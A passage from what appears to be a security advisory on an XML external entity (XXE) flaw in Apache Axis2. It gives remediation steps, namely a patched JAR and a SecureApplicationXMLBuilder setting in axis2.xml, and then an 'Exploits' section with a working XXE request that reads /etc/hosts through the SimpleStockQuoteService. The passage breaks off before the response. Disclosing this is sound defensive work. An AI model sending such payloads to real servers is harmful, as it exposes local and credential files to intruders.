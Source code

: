 3.  Copy the JAR from the `target` folder and add it to
    the Axis2 classpath. For the standalone distribution, this means adding
    the JAR to the `lib` folder. For WAR deployments,
    add it to `WEB-INF/lib`.

4.  Open the `axis2.xml` configuration file and locate the
    following entry:

    ~~~ markup
    <messageBuilder contentType="application/xml"
                    class="org.apache.axis2.builder.ApplicationXMLBuilder"/>
    ~~~

    Replace `ApplicationXMLBuilder` by
    `SecureApplicationXMLBuilder`, as shown below:

    ~~~ markup
    <messageBuilder contentType="application/xml"
                    class="org.apache.axis2.builder.SecureApplicationXMLBuilder"/>
    ~~~

    Note that in the default `axis2.xml` configuration
    file shipped with Axis2 1.4.1, the `messageBuilder`
    entry for `ApplicationXMLBuilder` is duplicated.
    The second entry must be removed in order for the change to take effect.

As with the solution described in [Section "Disable support for the application/xml content type"](#solution-disable-application-xml),
also check that Woodstox is present in the classpath.

## Exploits {#exploits}

### Remote file access

The vulnerability can be demonstrated using a stock Axis2 1.5.1 distribution into which the
[SimpleStockQuoteService](http://svn.apache.org/repos/asf/synapse/trunk/java/modules/samples/services/SimpleStockQuoteService)
from the Apache Synapse project has been deployed.
The request that exposes the vulnerability is as follows:

~~~ markup
<!DOCTYPE getQuote [
  <!ENTITY file SYSTEM "/etc/hosts">
]>
<getQuote xmlns="http://services.samples">
    <request>
        <symbol xmlns="http://services.samples/xsd">&file;</symbol>
    </request>
</getQuote>]]>
~~~

Sending this request to the SimpleStockQuoteService
endpoint[^3]
using `application/xml` as content type gives the following response:


[^3]: http://localhost:8080/axis2/services/SimpleStockQuoteService
